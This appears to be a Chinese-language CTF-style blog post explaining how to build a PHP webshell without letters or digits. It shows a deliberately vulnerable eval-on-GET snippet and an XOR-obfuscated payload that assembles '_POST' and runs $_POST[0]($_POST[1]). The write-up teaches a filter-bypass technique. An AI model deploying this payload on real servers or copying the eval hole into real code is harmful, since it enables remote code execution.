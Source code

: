 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   无字符构造webshell   # 标题 
 subtitle:   #副标题
 date:    2020-08-23    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - bypass

--- 
```


## 构造无字母无数字webshell

当初就碰到了这个知识点，就是一拖再拖，没能总结。。。现在就来总结一哈子。

```
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

可以看到这里正则匹配了字母和数字，

解法：将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符。然后再利用PHP允许动态函数执行的特点，拼接处一个函数名，如“assert”，然后动态执行之即可。

ps:

php5中assert是一个函数，我们可以通过`$f='assert';$f(...);`这样的方法来动态执行任意代码。

但php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用`file_put_contents`函数，同样可以用来getshell。

这里我们用php5

#### 解法1:异或

在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

**原理：**

在PHP中，两个变量的值进行异或时，会先将两个变量的值转换为ASCII，再将ASCII转换为二进制，对两对二进制数据进行异或，异或完，再将结果转为ASCII，最后将ASCII转为字符串，即为最终结果。
其实也就是在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。

异或规则： 两个二进制数相同时，异或为0，不同时为1.

```
<?php
   @$_++;            // $_ = 1
   $__=("#"^"|");    // $__ = _
   $__.=("."^"~");   // _P
   $__.=("/"^"`");   // _PO
   $__.=("|"^"/");   // _POS
   $__.=("{"^"/");   // _POST 
   ${$__}[!$_](${$__}[$_]);   // $_POST[0]($_POST[1]);
   // 也可直接拼接  $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); 

```
